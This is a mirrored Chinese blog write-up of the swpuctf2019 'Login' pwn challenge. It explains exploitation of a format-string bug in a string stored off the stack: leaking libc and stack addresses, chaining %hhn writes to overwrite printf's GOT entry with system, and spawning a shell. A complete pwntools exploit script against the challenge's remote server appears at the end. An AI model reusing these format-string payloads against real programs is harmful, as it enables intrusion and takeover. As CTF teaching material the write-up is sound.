




<!--yml
category: 未分类
date: 2022-04-26 14:37:50
-->

# swpuctf2019 Login pwn详细题解_ha1vk的博客-CSDN博客

> 来源：[https://blog.csdn.net/seaaseesa/article/details/103458308](https://blog.csdn.net/seaaseesa/article/details/103458308)

# Login

这是swpuctf2019的第二道pwn题，主要考点就是**非栈上的字符串格式化漏洞利用**。

首先，我们检查一下程序的保护机制

PIE和RELRO没有开启，那么我们可以轻易的利用漏洞修改GOT表

我们用IDA分析一下

在这里，有一个明显的格式化字符串漏洞，由于s1不是在栈上，而是在bss段里，所以漏洞利用起来会比栈上的字符串格式化漏洞稍微繁琐一些。由于外层是一个死循环，所以，我们不能用ROP来解，我们可以把printf的GOT表内容修改为system的地址，然后，我们输入/bin/sh字符串，就可以getshell。

并且要注意，**我们必须一次性的完成****printf****的got****表修改操作，不能分步**，因为分步的话第一次修改了部分数据,printf的GOT表已经不再指向printf函数，所以第二次就利用不了了。

可以泄露一些栈上的数据，来计算libc的地址

1.  #泄露__libc_start_main的地址  
2.  sh.sendlineafter('Please input your password:','%15$p')  

4.  sh.recvuntil('0x')  
5.  __libc_start_main_addr = int(sh.recvuntil('\n',drop=True),16) - 0xF1  
6.  **print** hex(__libc_start_main_addr)  
7.  libc = LibcSearcher('__libc_start_main',__libc_start_main_addr)  
8.  libc_base = __libc_start_main_addr - libc.dump('__libc_start_main')  
9.  system_addr = libc_base + libc.dump('system')  
10.  **print** 'libc_base=',hex(libc_base)  
11.  **print** 'system_addr=',hex(system_addr)  

现在，有了一些需要的地址了，我们考虑怎么来写printf的GOT表，常规的栈格式化字符串漏洞，我们只需将地址放入字符串即可，因为字符串存在了栈里，但是**非栈上的字符串，我们就不能这样操作了，我们需要借助格式化漏洞，先修改栈里的数据，改成需要的地址。**

我们**用****%6$hhn****来修改%10$****处的数据，然后利用%10$hhn****来修改%14$****处的数据，使得%14$****处为printf****的GOT****表地址，同样的方法，让%15$****处为printf_got + 1****的值**，这样，我们在printf里用%14$hhn和%15$hn一次性完成对printf的got表数据后3字节完成了修改。第一个字节不用修改，因为都是一样的值。

为了完成这个操作，我们就还需要泄露栈的地址

1.  sh.sendlineafter('Try again!\n','%6$p')  
2.  sh.recvuntil('0x')  
3.  stack_addr0 = int(sh.recvuntil('\n',drop=True),16)  
4.  **print** hex(stack_addr0)  
5.  sh.sendlineafter('Try again!\n','%10$p')  
6.  sh.recvuntil('0x')  
7.  stack_addr1 = int(sh.recvuntil('\n',drop=True),16)  
8.  **print** hex(stack_addr1)  

接下来，我们要在14处写入printf的got表地址**0x804B014**

1.  #写栈14$处的低1字节为0x14  
2.  payload = '%' + str(0x14) + 'c%10$hhn'  
3.  sh.sendlineafter('Try again!\n',payload)  
4.  #变更10处的地址，+1  
5.  payload = '%' + str( (stack_addr1 & 0xFF) + 1) + 'c%6$hhn'  
6.  sh.sendlineafter('Try again!\n',payload)  
7.  #写栈14$处的低2字节为0xB0  
8.  payload = '%' + str(0xB0) + 'c%10$hhn'  
9.  sh.sendlineafter('Try again!\n',payload)  

11.  #变更10处的地址，+2  
12.  payload = '%' + str( (stack_addr1 & 0xFF) + 2) + 'c%6$hhn'  
13.  sh.sendlineafter('Try again!\n',payload)  
14.  #写栈14$处的低3字节为0x04  
15.  payload = '%' + str(0x04) + 'c%10$hhn'  
16.  sh.sendlineafter('Try again!\n',payload)  

18.  #变更10处的地址，+3  
19.  payload = '%' + str( (stack_addr1 & 0xFF) + 3) + 'c%6$hhn'  
20.  sh.sendlineafter('Try again!\n',payload)  
21.  #写栈14$处的低4字节为0x08  
22.  payload = '%' + str(0x08) + 'c%10$hhn'  
23.  sh.sendlineafter('Try again!\n',payload)  

接下来，我们要往15处写入printf_got+1的值，那么需要将%10$指向%15$处，也就是14的地址+4

1.  ############在$15处存入printf_got+1################  
2.  #偏移4，指向$15  
3.  stack_addr1 = stack_addr1 + 4  
4.  payload = '%' + str( (stack_addr1 & 0xFF)) + 'c%6$hhn'  
5.  sh.sendlineafter('Try again!\n',payload)  

接下来，就是一样的操作了，在15处写数据**0x804B015**

1.  #写栈15$处的低1字节为0x15  
2.  payload = '%' + str(0x15) + 'c%10$hhn'  
3.  sh.sendlineafter('Try again!\n',payload)  
4.  #变更10处的地址，+1  
5.  payload = '%' + str( (stack_addr1 & 0xFF) + 1) + 'c%6$hhn'  
6.  sh.sendlineafter('Try again!\n',payload)  
7.  #写栈14$处的低2字节为0xB0  
8.  payload = '%' + str(0xB0) + 'c%10$hhn'  
9.  sh.sendlineafter('Try again!\n',payload)  

11.  #变更10处的地址，+2  
12.  payload = '%' + str( (stack_addr1 & 0xFF) + 2) + 'c%6$hhn'  
13.  sh.sendlineafter('Try again!\n',payload)  
14.  #写栈14$处的低3字节为0x04  
15.  payload = '%' + str(0x04) + 'c%10$hhn'  
16.  sh.sendlineafter('Try again!\n',payload)  

18.  #变更10处的地址，+3  
19.  payload = '%' + str( (stack_addr1 & 0xFF) + 3) + 'c%6$hhn'  
20.  sh.sendlineafter('Try again!\n',payload)  
21.  #写栈14$处的低4字节为0x08  
22.  payload = '%' + str(0x08) + 'c%10$hhn'  
23.  sh.sendlineafter('Try again!\n',payload)  

现在，栈里%14$和%15$就布下了我们需要的目标地址了，为了防止出错，我们把%10$处的数据复原

1.  #复原10处的数据  
2.  payload = '%' + str( ((stack_addr1-4) & 0xFF)) + 'c%6$hhn'  
3.  sh.sendlineafter('Try again!\n',payload)  

然后，我们就要一次性的改写printf的GOT表

1.  #现在%14$处存着的就是printf的GOT表地址  
2.  #我们开始来改写GOT表  

4.  #需要一次性将printf的got修改为system  
5.  #写低1字节  
6.  payload = '%' + str(system_addr & 0xFF) + 'c%14$hhn'  
7.  #写低2、3字节  
8.  payload += '%' + str(((system_addr & 0xFFFF00)>>8)-0x10) + 'c%15$hn'  
9.  sh.sendlineafter('Try again!\n',payload)  

接下来，我们就可以getshell了

1.  #getshell  
2.  time.sleep(0.5)  
3.  sh.sendline('/bin/sh')  

综上，我们对非栈上的格式化字符串漏洞总结:

**借助几个栈里的ebp****，改写栈里的数据为目标地址，然后就可以像常规格式化字符串漏洞一样操作了。**

贴上完整的exp代码

1.  #coding:utf8  
2.  **from** pwn **import** *  
3.  **from** LibcSearcher **import** *  
4.  **import** time  

6.  #sh = process('./login')  
7.  sh = remote('108.160.139.79',9090)  
8.  elf = ELF('./login')  
9.  printf_got = 0x804B014  

11.  sh.sendafter('Please input your name: \n','zhaohai')  

13.  #泄露__libc_start_main的地址  
14.  sh.sendlineafter('Please input your password:','%15$p')  

16.  sh.recvuntil('0x')  
17.  __libc_start_main_addr = int(sh.recvuntil('\n',drop=True),16) - 0xF1  
18.  **print** hex(__libc_start_main_addr)  
19.  libc = LibcSearcher('__libc_start_main',__libc_start_main_addr)  
20.  libc_base = __libc_start_main_addr - libc.dump('__libc_start_main')  
21.  system_addr = libc_base + libc.dump('system')  
22.  **print** 'libc_base=',hex(libc_base)  
23.  **print** 'system_addr=',hex(system_addr)  

26.  sh.sendlineafter('Try again!\n','%6$p')  
27.  sh.recvuntil('0x')  
28.  stack_addr0 = int(sh.recvuntil('\n',drop=True),16)  
29.  **print** hex(stack_addr0)  
30.  sh.sendlineafter('Try again!\n','%10$p')  
31.  sh.recvuntil('0x')  
32.  stack_addr1 = int(sh.recvuntil('\n',drop=True),16)  
33.  **print** hex(stack_addr1)  

35.  #写栈14$处的低1字节为0x14  
36.  payload = '%' + str(0x14) + 'c%10$hhn'  
37.  sh.sendlineafter('Try again!\n',payload)  
38.  #变更10处的地址，+1  
39.  payload = '%' + str( (stack_addr1 & 0xFF) + 1) + 'c%6$hhn'  
40.  sh.sendlineafter('Try again!\n',payload)  
41.  #写栈14$处的低2字节为0xB0  
42.  payload = '%' + str(0xB0) + 'c%10$hhn'  
43.  sh.sendlineafter('Try again!\n',payload)  

45.  #变更10处的地址，+2  
46.  payload = '%' + str( (stack_addr1 & 0xFF) + 2) + 'c%6$hhn'  
47.  sh.sendlineafter('Try again!\n',payload)  
48.  #写栈14$处的低3字节为0x04  
49.  payload = '%' + str(0x04) + 'c%10$hhn'  
50.  sh.sendlineafter('Try again!\n',payload)  

52.  #变更10处的地址，+3  
53.  payload = '%' + str( (stack_addr1 & 0xFF) + 3) + 'c%6$hhn'  
54.  sh.sendlineafter('Try again!\n',payload)  
55.  #写栈14$处的低4字节为0x08  
56.  payload = '%' + str(0x08) + 'c%10$hhn'  
57.  sh.sendlineafter('Try again!\n',payload)  

60.  ############在$15处存入printf_got+1################  
61.  #偏移4，指向$15  
62.  stack_addr1 = stack_addr1 + 4  
63.  payload = '%' + str( (stack_addr1 & 0xFF)) + 'c%6$hhn'  
64.  sh.sendlineafter('Try again!\n',payload)  
65.  #写栈15$处的低1字节为0x15  
66.  payload = '%' + str(0x15) + 'c%10$hhn'  
67.  sh.sendlineafter('Try again!\n',payload)  
68.  #变更10处的地址，+1  
69.  payload = '%' + str( (stack_addr1 & 0xFF) + 1) + 'c%6$hhn'  
70.  sh.sendlineafter('Try again!\n',payload)  
71.  #写栈14$处的低2字节为0xB0  
72.  payload = '%' + str(0xB0) + 'c%10$hhn'  
73.  sh.sendlineafter('Try again!\n',payload)  

75.  #变更10处的地址，+2  
76.  payload = '%' + str( (stack_addr1 & 0xFF) + 2) + 'c%6$hhn'  
77.  sh.sendlineafter('Try again!\n',payload)  
78.  #写栈14$处的低3字节为0x04  
79.  payload = '%' + str(0x04) + 'c%10$hhn'  
80.  sh.sendlineafter('Try again!\n',payload)  

82.  #变更10处的地址，+3  
83.  payload = '%' + str( (stack_addr1 & 0xFF) + 3) + 'c%6$hhn'  
84.  sh.sendlineafter('Try again!\n',payload)  
85.  #写栈14$处的低4字节为0x08  
86.  payload = '%' + str(0x08) + 'c%10$hhn'  
87.  sh.sendlineafter('Try again!\n',payload)  

89.  #复原10处的数据  
90.  payload = '%' + str( ((stack_addr1-4) & 0xFF)) + 'c%6$hhn'  
91.  sh.sendlineafter('Try again!\n',payload)  

94.  #现在%14$处存着的就是printf的GOT表地址  
95.  #我们开始来改写GOT表  

97.  #需要一次性将printf的got修改为system  
98.  #写低1字节  
99.  payload = '%' + str(system_addr & 0xFF) + 'c%14$hhn'  
100.  #写低2、3字节  
101.  payload += '%' + str(((system_addr & 0xFFFF00)>>8)-0x10) + 'c%15$hn'  
102.  sh.sendlineafter('Try again!\n',payload)  
103.  #getshell  
104.  time.sleep(0.5)  
105.  sh.sendline('/bin/sh')  

107.  sh.interactive()